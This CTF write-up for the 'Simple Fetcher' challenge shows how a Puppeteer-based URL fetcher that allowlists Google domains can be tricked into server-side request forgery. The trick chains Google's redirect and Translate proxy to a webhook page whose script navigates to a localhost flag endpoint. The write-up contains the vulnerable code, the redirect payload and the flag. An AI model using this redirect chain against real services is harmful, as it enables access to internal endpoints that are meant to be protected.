


**Challenge:** Simple Fetcher  
**Category:** Web — Server-Side Request Forgery (SSRF) via Open Redirect  
**Src:** [Simple fetcher](../simple_fetcher/)

---

## Overview

This challenge presents a URL fetcher service using Puppeteer that only allows Google domains. However, it fails to validate redirect chains, enabling SSRF attacks against localhost endpoints through Google's legitimate redirect services.

## Source Code Analysis

### Key Components

```javascript
app.post("/fetch", async (req, res) => {
  const inputUrl = req.body.url;

  // Validation: String prefix + hostname check
  if (
    !inputUrl.startsWith("https://www.google.com/") &&
    !inputUrl.startsWith("https://google.com/")
  ) {
    return res.status(400).send("URL must start with https://www.google.com/");
  }

  const parsedUrl = new URL(inputUrl);
  if (
    parsedUrl.hostname !== "www.google.com" &&
    parsedUrl.hostname !== "google.com"
  ) {
    return res.status(400).send("Only www.google.com or google.com allowed");
  }

  // Puppeteer fetches URL
  const browser = await puppeteer.launch({
    args: ["--no-sandbox", "--disable-setuid-sandbox"],
    headless: true,
  });
  const page = await browser.newPage();
  await page.goto(inputUrl, { waitUntil: "networkidle2", timeout: 10000 });
  const content = await page.content();
  await browser.close();
  res.send(`<h2>Content from ${inputUrl}:</h2><pre>${content}</pre>`);
});

app.get("/flag", (req, res) => {
  const clientIp = (req.ip || req.connection.remoteAddress || "").toString();
  if (clientIp.includes("127.0.0.1") || clientIp.includes("::1")) {
    const flag = process.env.FLAG || "Flag{fake_flag}";
    res.send(flag);
  } else {
    res.status(403).send("Access denied. Only local access allowed.");
  }
});
```

## Vulnerability Analysis

### 1. No Redirect Chain Validation

```javascript
await page.goto(inputUrl, { waitUntil: "networkidle2", timeout: 10000 });
```

The application only validates the **initial URL** but does not check:

- Intermediate redirect URLs
- Final destination after redirects
- JavaScript-initiated navigation

Puppeteer automatically follows HTTP redirects and executes JavaScript without any validation on subsequent URLs in the navigation chain.

### 2. Trusting Google Services as Open Redirectors

By whitelisting `google.com`, the application implicitly trusts all Google services, including:

- **`google.com/url?q=`** — Google's URL redirection service for external links
- **`translate.google.com/translate?u=`** — Google Translate's proxy service that fetches and displays arbitrary URLs

**Reference:** [How does Google Translate work as a proxy?](https://stackoverflow.com/questions/34243506/how-does-google-translate-works-as-a-proxy)

### 3. Puppeteer Runs in Server Context

```javascript
args: ["--no-sandbox", "--disable-setuid-sandbox"];
```

Critical security implications:

- Puppeteer runs on the **server machine** with access to `localhost` (127.0.0.1)
- Can execute JavaScript from fetched pages without sandboxing
- No network isolation or egress filtering to prevent internal network access
- Requests to `/flag` endpoint originate from localhost, bypassing IP-based access control

## Exploitation

### Step 1: Setup Webhook.site Redirect

Navigate to [webhook.site](https://webhook.site/) and obtain your unique URL.

Go to **Response** tab and configure a custom HTTP response:

**Body:**

```html
<html>
  <body>
    <script>
      try {
        top.location.href = "http://127.0.0.1:3000/flag";
      } catch (e) {
        window.location.href = "http://127.0.0.1:3000/flag";
      }
    </script>
  </body>
</html>
```



### Step 2: Construct Exploit Payload

**Chain structure:**

```
https://google.com/url?q=
    https://translate.google.com/translate?u=
        https://webhook.site/e2e3258f-c822-43b8-a3b5-357609708561
```

**Payload:**

```
https://google.com/url?q=https%3A%2F%2Ftranslate.google.com%2Ftranslate%3Fu%3Dhttps%253A%252F%252Fwebhook.site%252Fe2e3258f-c822-43b8-a3b5-357609708561
```

### Step 3: Execution Flow

✅ Validation passes: URL starts with https://google.com/ and hostname matches
✅ Google URL service: Redirects to Google Translate with encoded parameter
✅ Google Translate proxy: Fetches content from webhook.site
✅ Webhook responds: Returns HTML with JavaScript redirect
✅ Puppeteer executes: JavaScript runs in server context, navigates to localhost
✅ Flag endpoint: IP check passes (request from 127.0.0.1), returns flag
🚩 Server responds: Returns rendered page content containing the flag

### Step 4: Result



## Flag

`ASIS{ez_gg_open_redirector_68e04025dd853596d7762adc}`

---

_Author: Gia Than_
